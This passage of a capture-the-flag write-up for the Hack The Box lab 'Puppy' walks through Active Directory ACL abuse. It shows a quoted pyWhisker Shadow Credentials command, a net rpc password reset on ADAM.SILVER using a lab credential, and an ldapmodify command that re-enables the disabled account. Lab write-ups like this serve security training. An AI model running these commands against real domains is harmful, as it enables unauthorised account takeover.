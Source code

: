     Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.

    Shadow Credentials attack

    To abuse this permission, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

    pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"

    For other optional parameters, view the pyWhisker documentation.

### Foothold on ADAM.SILVER

Changing ADAM.SILVER s password as recommended (remembering to '\\'):

``` bash
net rpc password "ADAM.SILVER" "SuperSecret123\!" -U "PUPPY.HTB/ANT.EDWARDS%Antman2025\!" -S DC.PUPPY.HTB
```

Logging in using the new credentials:

``` bash
nxc smb dc.puppy.htb -u ADAM.SILVER -p SuperSecret123! --shares
```

<img src="Puppy-media/9c1b63b4f5cd8c01c7c131262c157793a347908f.png"
class="wikilink" alt="Pastedimage20250925130048.png" />
Hmmm. account disabled..
\#### Enable ADAM.SILVER
ref bloodhound ANT.EDWARDS has GenericAll on ADAM.SILVER with rights to remove deactivation

Tried different approaches:
There is an impacket-setuserinfo (not installed no my machine)
some interactive versions of netexec

ladapmodify seemed the easiest:

``` bash
┌──(kali㉿kali)-[~/Desktop/Puppy]
└─$ ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
EOF

Enter LDAP Password: 
modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"
```
